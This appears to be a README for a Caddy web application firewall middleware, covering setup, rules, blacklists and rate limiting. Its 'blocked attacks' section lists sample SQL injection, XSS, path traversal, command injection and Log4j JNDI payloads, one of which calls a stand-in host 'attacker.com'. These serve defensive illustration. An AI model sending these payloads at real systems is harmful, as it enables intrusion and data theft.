 # Caddy WAF Middleware

A Web Application Firewall (WAF) middleware for Caddy server with rule-based filtering, blacklisting, and rate limiting.

## Features
- Rule-based request filtering with regex patterns
- IP and DNS blacklisting
- Rate limiting per IP address
- Request inspection (URL, args, body, headers)
- Protection against common attacks (SQL injection, XSS, RCE, etc.)
- Detailed logging support

## Installation

```bash
xcaddy build --with github.com/fabriziosalmi/caddy-waf
```

## Configuration

Basic Caddyfile setup:

```caddyfile
{
    auto_https off
    admin off
    debug   # Enable debug mode for better logging
}

:8080 {
    log {
        output stdout
        format console
        level DEBUG
    }

    route {
        waf {
            rate_limit 100 5s  
            rule_file rules.json
            log_all
            ip_blacklist_file ip_blacklist.txt
            dns_blacklist_file dns_blacklist.txt
        }

        respond "Hello, world!" 200
    }
}
```

### Protected Attacks Examples

The WAF protects against various attacks. Here are examples that would be blocked:

#### SQL Injection
```http
# Blocked: Basic SELECT injection
GET /?id=1 SELECT * FROM users

# Blocked: UNION-based injection
GET /?id=1 UNION SELECT username,password FROM users

# Blocked: Time-based injection
GET /?id=1' AND SLEEP(5)--
```

#### Cross-Site Scripting (XSS)
```http
# Blocked: Basic script injection
GET /?input=<script>alert(1)</script>

# Blocked: Event handler injection
GET /?input=<img onerror=alert(1) src=x>

# Blocked: SVG-based XSS
GET /?input=<svg/onload=alert(1)>
```

#### Path Traversal
```http
# Blocked: Directory traversal
GET /../../etc/passwd

# Blocked: Encoded traversal
GET /%2e%2e%2f/etc/passwd

# Blocked: Double-encoded traversal
GET /%252e%252e%252f/etc/passwd
```

#### Remote Code Execution
```http
# Blocked: Command injection
GET /?cmd=;ls;

# Blocked: Shell command
GET /?input=`cat /etc/passwd`

# Blocked: System command execution
GET /?input=$(ls -la)
```

#### Log4j Attacks
```http
# Blocked: JNDI lookup
GET /?x=${jndi:ldap://attacker.com/a}

# Blocked: Nested expression
GET /?x=${${::-j}${::-n}${::-d}${::-i}}
```

#### Protocol Attacks
```http
# Blocked: Git repository access
GET /.git/config

# Blocked: Environment file access
GET /.env

# Blocked: Apache configuration
GET /.htaccess
```

#### Scanner Detection
```http
# Blocked: Common scanner User-Agents
User-Agent: sqlmap/1.4.7
User-Agent: nikto/2.1.6
User-Agent: nmap/7.80
```

### Configuration Options

- `rule_file`: JSON file containing WAF rules
- `ip_blacklist_file`: File with blocked IPs/CIDR ranges
- `dns_blacklist_file`: File with blocked domains
- `rate_limit <requests> <window>`: Rate limiting (e.g., "100 1m" for 100 requests per minute)
- `log_all`: Enable detailed logging

### Rules Format (rules.json)

```json
[
    {
        "id": "sql_injection",
        "phase": 2,
        "pattern": "(?i)select.*from",
        "targets": ["ARGS", "BODY"],
        "severity": "HIGH",
        "action": "block",
        "score": 3
    }
]
```

### Blacklist Formats
- `ip_blacklist.txt`: One IP/CIDR per line
- `dns_blacklist.txt`: One domain per line

## Rate Limiting

Rate limiting is configured with two parameters:
- Number of requests allowed
- Time window

Example configurations:
```caddyfile
# 100 requests per minute
rate_limit 100 1m

# 10 requests per second
rate_limit 10 1s

# 1000 requests per hour
rate_limit 1000 1h
```

Exceeding the rate limit returns HTTP 429 (Too Many Requests).

## Testing

Test rate limiting:
```bash
# Test 5 requests per 5 seconds limit
for i in {1..6}; do curl -i http://localhost:8080/; done

# Load test
ab -n 100 -c 10 http://localhost:8080/
```

## License

AGPLv3
